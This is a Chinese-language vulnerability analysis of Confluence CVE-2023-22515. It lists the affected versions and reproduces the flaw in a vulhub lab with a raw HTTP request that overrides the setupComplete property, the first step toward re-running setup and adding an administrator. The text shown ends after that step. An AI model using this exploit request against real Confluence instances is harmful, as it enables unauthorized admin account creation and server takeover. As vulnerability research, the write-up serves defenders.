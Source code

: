 

# Confluence CVE-2023-22515 漏洞分析 - 先知社区

Confluence CVE-2023-22515 漏洞分析

- - -

## 简介

2023 年 10 月 4 日，Atlassian 官方发布了对于 CVE-2023-22515 漏洞的补丁。这个漏洞是由属性覆盖导致，利用该漏洞攻击者可以重新执行 Confluence 安装流程并增加管理员账户。

该漏洞不影响 8.0.0 以前的版本。

影响版本

Confluence Data Center 和 Confluence Server

-   8.0.0 - - 8.0.4
-   8.1.0 - - 8.1.4
-   8.2.0 - - 8.2.3
-   8.3.0 - - 8.3.2
-   8.4.0 - - 8.4.2
-   8.5.0 - - 8.5.1

## 漏洞复现

使用 vulhub 的漏洞环境

[https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md](https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2023-22515/README.zh-cn.md)

0x01 覆盖 `bootstrapStatusProvider.applicationConfig.setupComplete`属性

```plain
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
```
